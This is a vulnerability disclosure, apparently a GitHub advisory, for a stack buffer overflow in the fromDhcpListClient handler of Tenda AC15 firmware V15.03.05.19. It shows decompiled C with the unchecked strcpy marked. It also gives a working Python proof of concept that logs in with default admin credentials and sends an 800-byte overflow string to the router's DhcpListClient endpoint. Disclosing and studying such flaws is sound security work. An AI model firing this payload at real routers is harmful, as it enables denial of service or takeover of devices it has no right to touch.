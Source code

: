 ## Tenda AC15 stack overflow vulnerability

### * Version

V15.03.05.19 (US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2680.html](https://www.tenda.com.cn/download/detail-2680.html)

### * Vulnerability Detail

In function fromDhcpListClient, the strings "%s%d" and "list" are combined into a new parameter "list*". 
The content obtained by the program from the parameter "list*" is passed to local_20, 
and then the local_20 is directly copied into the acStack545 + 1 stack through the strcpy function. 
There is no size check, so there is a stack overflow vulnerability. 
The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.
```c
void fromDhcpListClient(undefined4 param_1)

{
  size_t sVar1;
  int iVar2;
  undefined4 local_370;
  undefined4 local_36c;
  undefined4 local_368;
  undefined4 local_364;
  undefined local_360;
  char acStack608 [63];
  char acStack545 [257];
  char acStack288 [256];
  char *local_20;
  undefined4 local_1c;
  char *local_18;
  int local_14;
  
  local_14 = 0;
  memset(acStack608,0,0x40);
  local_18 = (char *)FUN_0002ba8c(param_1,"LISTLEN",&DAT_000ee368);
  local_1c = FUN_0002ba8c(param_1,&DAT_000ee36c,&DAT_000ee374);
  local_360 = 0;
  local_14 = 1;
  while (iVar2 = atoi(local_18), local_14 <= iVar2) {
    local_370 = 0;
    local_36c = 0;
    local_368 = 0;
    local_364 = 0;
    sprintf((char *)&local_370,"%s%d","list",local_14);
    local_20 = (char *)FUN_0002ba8c(param_1,&local_370,&DAT_000ee388);
    if ((local_20 == (char *)0x0) || (*local_20 == '\0')) break;
    strcpy(acStack545 + 1,local_20 + 1);  //here is overflow
    sVar1 = strlen(acStack545 + 1);
    acStack545[sVar1] = '\0';
    sprintf(acStack608,"dhcps.Staticip%d",local_14);
    SetValue(acStack608,acStack545 + 1);
    local_14 = local_14 + 1;
  }
  SetValue("dhcps.Staticnum",local_18);
  sprintf(acStack288,"/network/lan_dhcp_static.asp?page=%s",local_1c);
  iVar2 = CommitCfm();
  if (iVar2 != 0) {
    PostMsgToNetctrl(3);
  }
  FUN_0002be4c(param_1,acStack288);
  return;
}
```

### * POC

```python
import requests


cmd  = b'LISTLEN=1&page=&list1=' + b'A' * 800


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/DhcpListClient/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```
